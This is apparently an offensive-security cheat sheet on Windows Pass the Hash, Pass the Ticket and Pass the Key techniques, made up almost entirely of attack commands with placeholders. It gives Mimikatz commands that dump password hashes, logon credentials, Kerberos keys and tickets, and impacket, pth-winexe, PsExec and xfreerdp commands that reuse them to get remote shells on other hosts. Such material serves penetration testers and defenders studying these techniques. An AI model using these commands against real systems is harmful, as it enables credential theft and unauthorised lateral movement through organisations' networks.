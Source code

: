 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Run on Windows

```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```

### Run on Linux

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#rdp
xfreerdp /u:Administrator /pth:<ntlm> /d:<domain> /v:<target>
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES key or password. The obtained TGT token can then be used to access other machines.

### Run on Windows

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /rc4:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
```

### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```
